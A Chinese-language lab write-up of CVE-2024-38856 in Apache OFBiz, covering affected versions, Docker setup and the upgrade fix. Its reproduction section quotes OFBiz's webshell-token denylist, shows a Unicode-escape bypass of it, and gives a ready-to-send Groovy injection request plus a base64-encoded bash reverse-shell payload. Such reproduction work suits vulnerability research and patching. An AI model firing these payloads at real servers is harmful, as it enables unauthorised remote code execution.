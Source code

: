 # Apache OFBiz 身份验证绕过导致远程代码执行 CVE-2024-38856

## 漏洞描述

Apache OFBiz 是一个开源的企业资源规划（ERP）系统。它提供了一套企业应用程序，用于集成和自动化企业的许多业务流程。

这个漏洞是由于对 CVE-2023-51467 的不完全修复而产生的。在 Apache OFBiz 18.12.11 版本中，开发人员认为他们已经修复了该漏洞，但实际上他们只解决了其中一种利用方法。Groovy 表达式注入仍然存在，允许未经授权的用户在服务器上执行任意命令。

参考链接：

- https://github.com/apache/ofbiz-framework/commit/31d8d7
- https://forum.butian.net/article/524
- https://github.com/Praison001/CVE-2024-38856-ApacheOfBiz
- https://issues.apache.org/jira/browse/OFBIZ-13128

## 漏洞影响

```
Apache OFBiz < 18.12.14
```

## 网络测绘

```
app="Apache_OFBiz"
```

## 环境搭建

Vulhub 执行如下命令启动一个 Apache OfBiz 18.12.10 服务器：

```
docker compose up -d
```

在等待数分钟后，访问 `https://your-ip:8443/accounting` 查看到登录页面，说明环境已启动成功。

如果非本地 localhost 启动，Headers 需要包含 `Host: localhost`，否则报错：

```
ERROR MESSAGE
org.apache.ofbiz.webapp.control.RequestHandlerException: Domain your-ip not accepted to prevent host header injection. 
```

![](images/Apache%20OFBiz%20身份验证绕过导致远程代码执行%20CVE-2024-38856/image-20240918155911393.png)

## 漏洞复现

Apache Ofbiz 限制了如下一些关键词的使用，可以通过 Unicode 编码来绕过这个限制，比如 `\u0065xecute`：

```
deniedWebShellTokens=java.,beans,freemarker,<script,javascript,<body,body ,<form,<jsp:,<c:out,taglib,<prefix,<%@ page,<?php,exec(,alert(,\
                     %eval,@eval,eval(,runtime,import,passthru,shell_exec,assert,str_rot13,system,decode,include,page ,\
                     chmod,mkdir,fopen,fclose,new file,upload,getfilename,download,getoutputstring,readfile,iframe,object,embed,onload,build,\
                     python,perl ,/perl,ruby ,/ruby,process,function,class,InputStream,to_server,wget ,static,assign,webappPath,\
                     ifconfig,route,crontab,netstat,uname ,hostname,iptables,whoami,"cmd",*cmd|,+cmd|,=cmd|,localhost,thread,require,gzdeflate,\
                     execute,println,calc,touch,calculate
```

直接发送如下请求即可使用 Groovy 脚本执行 `id` 命令：

```
POST /webtools/control/main/ProgramExport HTTP/1.1
Host: localhost:8443
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.6478.127 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Length: 190

------WebKitFormBoundaryDbR7sY3IIwQX7kcJ
Content-Disposition: form-data; name="groovyProgram"

throw new Exception('id'.\u0065xecute().text);
------WebKitFormBoundaryDbR7sY3IIwQX7kcJ--
```

![](images/Apache%20OFBiz%20身份验证绕过导致远程代码执行%20CVE-2024-38856/image-20240918160425061.png)

reverse shell payload：

```
throw new Exception('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMjcuMC4wLjEvOTk5OSAwPiYx}|{base64,-d}|{bash,-i}'.\u0065xecute().text);
```

## 漏洞修复

升级至 18.12.16 及以上版本。
